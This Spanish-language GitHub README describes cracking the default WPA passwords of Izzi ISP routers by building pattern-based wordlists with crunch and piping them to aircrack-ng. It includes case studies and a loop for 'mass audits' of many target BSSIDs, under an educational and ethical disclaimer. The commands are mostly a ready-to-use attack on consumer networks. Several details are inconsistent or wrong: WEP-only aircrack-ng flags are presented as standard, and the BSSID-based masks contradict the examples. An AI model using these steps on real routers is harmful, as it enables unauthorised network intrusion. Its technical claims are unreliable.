

# 🔍 Método de Auditoría WiFi para Routers Izzi


[](https://github.com/rodrigo47363/izzi-wifi-audit-method)

Este repositorio documenta una metodología profesional para analizar patrones de seguridad en routers Izzi, diseñado para auditorías éticas en entornos controlados.



> ⚠️ **Advertencia Ética**  
> Este método está diseñado **exclusivamente para fines educativos y pruebas autorizadas**. El uso no autorizado de estas técnicas es ilegal y va en contra de los principios éticos de seguridad.

## 🌟 Características Clave

- **Patrones específicos** para routers Izzi
- **Optimización de diccionarios** con `crunch`
- **Validación rápida** con `aircrack-ng`
- **Documentación completa** para cada paso del proceso
- **Casos prácticos** con ejemplos reales

## 🚀 Comenzar Rápido

### Requisitos del Sistema
```bash
# Instalar herramientas en Kali Linux
sudo apt update
sudo apt install -y crunch aircrack-ng
```

### Ejemplo con Patrón Conocido
```bash
# Cuando conoces parte de la contraseña
sudo crunch 12 12 -t F82DC0@@C5DC -f Diccionario.lst anu | \
aircrack-ng --bssid 00:11:22:33:44:55 -w- IZZI-C5DC.cap
```

### Ejemplo sin Patrón Conocido
```bash
# Cuando no tienes información previa
sudo crunch 10 12 -f Diccionario.lst anu | \
aircrack-ng --bssid 00:11:22:33:44:55 -w- IZZI-0652.cap
```

## 🧠 Metodología Detallada

### 1. Patrones de Contraseñas Izzi
Los routers Izzi suelen usar patrones predecibles:
- Longitud: 12 caracteres
- Formato: `XXXXXX@@XXXX`
- Caracteres: A-Z, 0-9 (sin minúsculas)
- Relación con BSSID: Últimos 4 caracteres de la BSSID

### 2. Generación de Diccionarios
Uso avanzado de `crunch`:
```bash
# Generar diccionario con máscara específica
crunch 12 12 -t F82DC0@@@@@@ -o izzi_dict.txt

# Parámetros clave:
# -t: Patrón con @@ como placeholder
# -d: Limitar caracteres repetidos
# -s: Punto de inicio para continuar trabajos
```

### 3. Técnicas de Optimización
| Técnica | Comando | Beneficio |
|---------|---------|-----------|
| **Filtrado por BSSID** | `-t @@@@@@@@` + últimos 4 BSSID | Reduce espacio de búsqueda |
| **Generación incremental** | `crunch 10 12 ...` | Cubre diferentes longitudes |
| **Uso de GPU** | Combinar con `hashcat` | Acelera proceso 10x |

### 4. Análisis de Capturas
```bash
# Comandos esenciales de aircrack-ng
aircrack-ng -z captura.cap        # Método estándar
aircrack-ng -K captura.cap        # Modo acelerado
aircrack-ng -r diccionario.hccap  # Usar diccionario precomputado
```

## 📂 Estructura del Repositorio

```plaintext
izzi-wifi-audit-method/
├── docs/                  # Documentación técnica
│   ├── patrones-izzi.md   # Patrones de contraseñas
│   ├── guia-crunch.md     # Uso avanzado de crunch
│   └── optimizacion.md    # Técnicas de optimización
├── scripts/               # Scripts de automatización
│   ├── generador.sh       # Generador de diccionarios
│   └── analizador.sh      # Script de análisis
├── capturas/              # Ejemplos de capturas
│   ├── ejemplo1.cap       # Captura de ejemplo
│   └── README.md          # Instrucciones
└── diccionarios/          # Diccionarios pregenerados
    └── base.lst           # Diccionario base
```

## 🔧 Configuración Recomendada

| Componente | Recomendación | Notas |
|------------|---------------|-------|
| **CPU** | 4+ núcleos | Para generación paralela |
| **RAM** | 8GB+ | Manejo de diccionarios grandes |
| **GPU** | NVIDIA CUDA | Aceleración con hashcat |
| **Almacenamiento** | SSD 256GB+ | Para operaciones I/O intensivas |
| **Sistema** | Kali Linux 2023+ | Entorno óptimo para pentesting |

## 🧩 Casos de Estudio

### Caso 1: Router con BSSID conocido
```bash
# BSSID: 00:1A:2B:3C:4D:5E
crunch 12 12 -t @@@@@@@@5D5E -o target_dict.txt
aircrack-ng -b 00:1A:2B:3C:4D:5E -w target_dict.txt captura.cap
```

### Caso 2: Auditoría masiva
```bash
# Script para múltiples routers
for bssid in $(cat targets.txt); do
  last4=${bssid: -4}
  crunch 12 12 -t @@@@@@@@$last4 -o ${bssid}_dict.txt
  aircrack-ng -b $bssid -w ${bssid}_dict.txt capturas/${bssid}.cap
done
```

## 📜 Licencia y Ética

Este proyecto se distribuye bajo la [Licencia MIT](LICENSE). 

**Declaración Ética:**  
> "El conocimiento compartido aquí tiene como único propósito fortalecer la seguridad informática. El autor no se hace responsable del mal uso de esta información. Siempre obtén permiso por escrito antes de realizar cualquier prueba de seguridad."

---

**Rodrigo** - Especialista en Ciberseguridad  

# 🌐 Conecta Conmigo

[](https://linkedin.com/in/rodrigo-v-695728215)
[](https://github.com/rodrigo47363)
[](https://youtube.com/@Rodrigo-47363?sub_confirmation=1)
[](https://app.hackthebox.com/profile/2072477)
[](mailto:rodrigovil@proton.me)
[](https://tryhackme.com/p/Rodrigo.47363)

## 📧 Contacto Directo
**Correo profesional:** [rodrigovil@proton.me](mailto:rodrigovil@proton.me)  
**LinkedIn:** [https://linkedin.com/in/rodrigo-v-695728215](https://linkedin.com/in/rodrigo-v-695728215)  
**Colaboraciones técnicas:** Abierto a proyectos de seguridad y pentesting

## 🔗 Enlaces Especiales
[](https://referral.hackthebox.com/mz7ZtlJ)
[](https://tryhackme.com/signup?referrer=64f0d7665fde58f3ec71379b)

## 💖 Apoya Mi Trabajo
[](bitcoin:bc1qkzmpd0hry99qms7ef23vsyx9vt34pzzaslpp8y)
[](https://etherscan.io/address/0xB75bC57C54FCBFF139EBF981A596B019C537d018)
[](https://solscan.io/address/ELekuGHcmZjhXrtHNqHuu8QmdCZr3oCWtTmu3QUQ5hac)

---

**"La seguridad es un proceso continuo, no un destino final. ¡Conectemos y fortalezcamos juntos el ecosistema de ciberseguridad!"** 🔐
